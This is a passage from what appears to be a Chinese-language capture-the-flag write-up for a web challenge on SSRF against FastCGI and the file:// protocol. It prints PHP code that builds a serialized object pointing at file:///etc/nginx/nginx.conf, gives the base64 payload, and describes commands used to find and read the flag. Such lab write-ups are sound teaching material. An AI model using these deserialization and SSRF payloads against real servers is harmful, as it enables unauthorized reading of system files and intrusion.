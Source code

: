 ```php
    private $config;
    public function __construct(){
        $this->config=new config();
    }
}
$a=new dao();
echo base64_encode(serialize($a));
```

![](https://i.loli.net/2021/10/06/91WhrYvAxwkKIMD.png)



## 310 ssrf-fastcgi|file

后面查配置文件，端口9000开着，fastcgi也还可以打~

### 解法1

fastcgi还可以打，但是cat 不到flag，就用find命令找了一下，存在`/var/flag`

![](https://i.loli.net/2021/10/06/NrKyDcA8i4V2U7o.png)

尝试cat一下，但是读不出；又尝试`ls -l /var/flag`看是否是权限问题，回显得到的是index.html，说明flag是个目录

那么：`cat /var/flag/index.html`即可

![](https://i.loli.net/2021/10/06/jUbnmlVtX9vs7So.png)



### 解法2

yu师傅的解法

用file协议访问nginx的配置文件

```php
<?php
class config{
    public $update_url = 'file:///etc/nginx/nginx.conf';
}   

class dao{
    private $config;
    public function __construct(){
        $this->config=new config();
    }
}
$a=new dao();
echo base64_encode(serialize($a));
# TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czoxMDoidXBkYXRlX3VybCI7czoyODoiZmlsZTovLy9ldGMvbmdpbngvbmdpbnguY29uZiI7fX0=
```
